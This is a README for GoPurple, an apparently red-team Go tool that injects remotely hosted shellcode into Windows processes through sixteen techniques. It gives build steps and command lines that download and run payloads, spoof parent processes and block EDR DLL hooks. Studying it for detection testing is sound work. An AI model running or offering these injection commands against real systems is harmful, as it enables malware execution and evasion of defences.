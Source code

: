# GoPurple

This project is a simple collection of various shell code injection techniques, aiming to streamline the process of endpoint detection evaluation, beside challenging myself to get into Golang world.




# Installation

1 - Requires [go](https://golang.org/dl/) installed.

2 - Build the application from the project's directory: `go build`. Set `GOOS=windows` if the build system is not Windows.


```
  _____                              _
  / ____|                            | |
 | |  __  ___  _ __  _   _ _ __ _ __ | | ___
 | | |_ |/ _ \| '_ \| | | | '__| '_ \| |/ _ \
 | |__| | (_) | |_) | |_| | |  | |_) | |  __/
  \_____|\___/| .__/ \__,_|_|  | .__/|_|\___|
              | |              | |
              |_|              |_|   by @s3cdev

 -a string
        Program command line arguments
  -b string
        block DLL mode (nonms/onlystore for QueueUserAPC )
  -p int
        Process ID to inject shellcode into
  -prog string
        program to inject into
  -t string
        shellcode injection technique to use:
         1: CreateFiber
         2: syscall
         3: CreateThreadNative
         4: CreateProcess
         5: EtwpCreateEtwThread
         6: CreateRemoteThread
         7: RtlCreateUserThread
         8: CreateThread
         9: CreateRemoteThreadNative
         10: CreateProcessWithPipe
         11: QueueUserAPC
         12: CreateThreadpoolWait
         13: BananaPhone
         14: EnumerateLoadedModules
         15: EnumChildWindows
         16: EnumPageFilesW
  -u string
        URL hosting the shellcode

```




# Examples:

A shellcode needs to be generated,this can be done using tools such as [msfvenom](https://www.offensive-security.com/metasploit-unleashed/msfvenom/) or [shad0w](https://github.com/bats3c/shad0w). Then the shellcode needs to be hosted to be remotely downloaded and executed on the remote machine.
For the sake of clarity, the below demos illustrate different ways of using the tool.

1 - Shellcode injection using BananaPhone method + Shad0w as the shellcode generator

![](demo1.gif)




2 - Shellcode injection using QueueUserAPC technique + Shad0w as the shellcode generator +  spoofing the parent ID (explorer as the parent ID) +  process launching by spoofed parent that contains the shellcode(calc) + protecting the process from unsigned DLL hook, so only Microsoft signed DLL can hook into the process.

![](demo2.gif)


3- Shellcode injection using CreateFiber + msfvenom as the shellcode generator

![](demo3.gif)

# How To Use:

```
1 - gopurple.exe -u urlhostingpayload -t 1 (CreateFiber)

2 - gopurple.exe -u urlhostingpayload -t 2 (Syscall)

3 - gopurple.exe -u urlhostingpayload -t 3 (CreateThreadNative)

4 - gopurple.exe -u urlhostingpayload -t 4 (CreateProcess)

5 - gopurple.exe -u urlhostingpayload -t 5 (EtwpCreateEtwThread)

6 - gopurple.exe -u urlhostingpayload -t 6 -p targetprocess (CreateRemoteThread)

7 - gopurple.exe -u urlhostingpayload -t 7 -p targetprocess (RtlCreateUserThread)

8 - gopurple.exe -u urlhostingpayload -t 8 (CreateThread)

9 - gopurple.exe -u urlhostingpayload -t 9 -p targetprocess (CreateRemoteThreadNative)

10 - gopurple.exe -u urlhostingpayload -t 10 -prog porgram -a processargument (ex:C:\Windows\System32\WindowsPowerShell\v1.0) and processargument(ex:Get-Process)  (CreateProcessWithPipe)

11 - gopurple.exe -u urlhostingpayload -t 11 -p targetpidasparentprocess -prog programtoinjectshellcodeinto -b methodtoblockdll(nonms or onlystore)  (QueueUserAPC)

nonms = only DLLs that are signed by Microsoft can hook into the process

onlystore = only Microsoft store application's process can hook into the process

12 - gopurple.exe -u urlhostingpayload -t 12 (CreateThreadpoolWait)

13 - gopurple.exe -u urlhostingpayload -t 13 (BananaPhone)

14-  gopurple.exe -u urlhostingpayload -t 14 (EnumerateLoadedModules)

15-  gopurple.exe -u urlhostingpayload -t 15 (EnumChildWindows)

16-  gopurple.exe -u urlhostingpayload -t 16 (EnumPageFilesW)
```


# Acknowledgments:

All the credits go to following guys for their awesome researches,tools and inspiration:

* [ne0nd0g](https://twitter.com/ne0nd0g):  Most of this project has been borrowed from go-shellcode 

* [spotheplanet](https://twitter.com/spotheplanet): The [blogpost](https://www.ired.team/offensive-security/code-injection-process-injection/shellcode-execution-via-createthreadpoolwait) inspired me to convert the method to Golang

* [_d00mfist](https://twitter.com/_d00mfist): Great implementation of QueueUserAPC technique in Golang

* [c__sto](https://twitter.com/c__sto): BananaPhone technique

* [_batsec_](https://twitter.com/_batsec_): The great shad0w

* [chiragsavla94](https://twitter.com/chiragsavla94): Inspired from [ProcessInjection](https://github.com/3xpl01tc0d3r/ProcessInjection)

* [S4R1N](https://twitter.com/S4R1N): For introducing the new alternative code executions

Thanks to [brimston3](https://twitter.com/brimston3) for his support and contribution

# References

(https://github.com/Ne0nd0g/go-shellcode)

(https://www.ired.team/)

(https://github.com/D00MFist/Go4aRun)

(https://github.com/BishopFox/sliver)

(https://posts.specterops.io/going-4-a-run-eb263838b944)

(https://github.com/C-Sto/BananaPhone)

(https://blog.xpnsec.com/protecting-your-malware)

(https://github.com/3xpl01tc0d3r/ProcessInjection)

(https://github.com/S4R1N/AlternativeShellcodeExec)


# Future Plans

* Adding more techniques
* More structured code


# Changelog

## [1.0.3] - 2021-03-28
### Added
- EnumPageFilesW technique

## [1.0.2] - 2021-03-25
### Added
- EnumChildWindows technique

## [1.0.0] - 2021-03-22
### Added
- EnumerateLoadedModules technique

# Legal Disclaimer
This project is made for educational and ethical testing purposes only.Usage of GoPurple for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developer assume no liability and are not responsible for any misuse or damage caused by this program






